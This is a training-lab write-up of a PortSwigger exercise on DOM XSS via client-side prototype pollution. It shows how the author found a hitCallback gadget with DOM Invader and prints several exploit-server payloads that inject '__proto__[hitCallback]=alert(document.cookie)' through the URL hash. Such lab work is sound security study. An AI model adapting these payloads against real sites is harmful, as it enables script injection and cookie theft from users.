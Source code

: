 # Practitioner Lab 151: Client-side prototype pollution in third-party libraries

---

This lab is vulnerable to DOM XSS via client-side prototype pollution. This is due to a gadget in a third-party library, which is easy to miss due to the minified source code. Although it's technically possible to solve this lab manually, we recommend using DOM Invader as this will save you a considerable amount of time and effort.

To solve the lab:

1. Use DOM Invader to identify a prototype pollution and a gadget for DOM XSS.
2. Use the provided exploit server to deliver a payload to the victim that calls `alert(document.cookie)` in their browser.

This lab is based on real-world vulnerabilities discovered by PortSwigger Research. For more details, check out Widespread prototype pollution gadgets by Gareth Heyes.

I turned on DOM invader. 

I then played with the site to capture. 

![Untitled](Practitioner%20Lab%20151%20Client-side%20prototype%20polluti%20da9ca7d8ed204a4892402155a6e01563/Untitled.png)

I then started scanning 

![Untitled](Practitioner%20Lab%20151%20Client-side%20prototype%20polluti%20da9ca7d8ed204a4892402155a6e01563/Untitled%201.png)

This found a sink and a gadget to exploit. 

![Untitled](Practitioner%20Lab%20151%20Client-side%20prototype%20polluti%20da9ca7d8ed204a4892402155a6e01563/Untitled%202.png)

Using this I can see the value it has. 

Im targeting the hitCallback

![Untitled](Practitioner%20Lab%20151%20Client-side%20prototype%20polluti%20da9ca7d8ed204a4892402155a6e01563/Untitled%203.png)

![Untitled](Practitioner%20Lab%20151%20Client-side%20prototype%20polluti%20da9ca7d8ed204a4892402155a6e01563/Untitled%204.png)

![Untitled](Practitioner%20Lab%20151%20Client-side%20prototype%20polluti%20da9ca7d8ed204a4892402155a6e01563/Untitled%205.png)

It was injected into the hash 

so now I will try to test it. 

![Untitled](Practitioner%20Lab%20151%20Client-side%20prototype%20polluti%20da9ca7d8ed204a4892402155a6e01563/Untitled%206.png)

Here I can see I was able to manually inject it. 

![Untitled](Practitioner%20Lab%20151%20Client-side%20prototype%20polluti%20da9ca7d8ed204a4892402155a6e01563/Untitled%207.png)

```
<script>
location = "https://0a5500f003b33e1f813ed0b200bb00e5.web-security-academy.net/filter?category=Accessories#cat=13372&category=Accessories&__proto__[hitCallback]=alert%28document.cookie%29"
</script>
```

For some reason this is not solving the lab even if it is sending the client into the site and opening the alert box. I will try on another section of the page. 

```
<script>
location = "https://0a5500f003b33e1f813ed0b200bb00e5.web-security-academy.net/chat#__proto__[hitCallback]=alert%28document.cookie%29"
</script>

```

Lastly after using 

```
<script>
location.href = "https://0a5500f003b33e1f813ed0b200bb00e5.web-security-academy.net/chat#__proto__[hitCallback]=alert%28document.cookie%29"
</script>

```

This managed to work. 

I think the reason why it was not solving it is because the servers were slow.